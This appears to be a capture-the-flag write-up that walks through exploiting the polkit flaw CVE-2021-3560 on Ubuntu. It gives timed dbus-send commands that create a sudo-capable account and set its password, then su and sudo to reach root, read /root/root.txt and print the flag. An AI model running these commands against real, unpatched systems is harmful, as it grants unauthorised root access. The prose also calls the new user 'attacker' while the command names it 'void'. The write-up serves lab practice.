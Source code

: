 # Polkit : CVE-2021-3560

The last vulnerable version available in the apt repositories for Focal Fossa is `0.105-26ubuntu1`, so, if you see this, you may be in luck!

We can use `apt list --installed | grep policykit-1` to check the installed version of polkit.

- command 1 : to create a user --> void
```bash
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:void string:"Pentester Account" int32:1 & sleep 0.005s; kill $!
```
This command will manually send a dbus message to the accounts daemon, printing the response and creating a new user called attacker `(string:attacker)` with a description of "Pentester Account" `(string:"Pentester Account")` and membership of the sudo group set to true (referenced by the `int32:1` flag).
- command 2 : to check the user id
```bash
id void
```

- command 3 : to create a password hash
```bash
openssl passwd -6 helloworld
```
> $6$KIEFGCTgXtYFsL90$EgAD93y4fgD8fBxkOnPiGAb/Pc90SLH9NJgHRmBMbdwF/X5IXjWNnTZOqjptwzgBxQfBrS7F5Akp2pl.XLK9R1

- command 4 : to put the password at the right place 
```bash
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User1002 org.freedesktop.Accounts.User.SetPassword string:'$6$KIEFGCTgXtYFsL90$EgAD93y4fgD8fBxkOnPiGAb/Pc90SLH9NJgHRmBMbdwF/X5IXjWNnTZOqjptwzgBxQfBrS7F5Akp2pl.XLK9R1' string:'Ask the pentester' & sleep 0.005s; kill $!
```
- command 5 : change the user and get root
```bash
su void 
# enter password
sudo -s
```

```bash
cat /root/root.txt
cyX/q1GmH6E=-F/T5RjnU8m5OzRlS-d7AOFM7vS/bwUTl3t2F1U5PQG16I7oFohrnEXWDXjAI39ylj5Ax5/g==
```
Getting the flag
> THM{N2I0MTgzZTE4ZWQ0OGY0NjdiNTQ0NTZi}
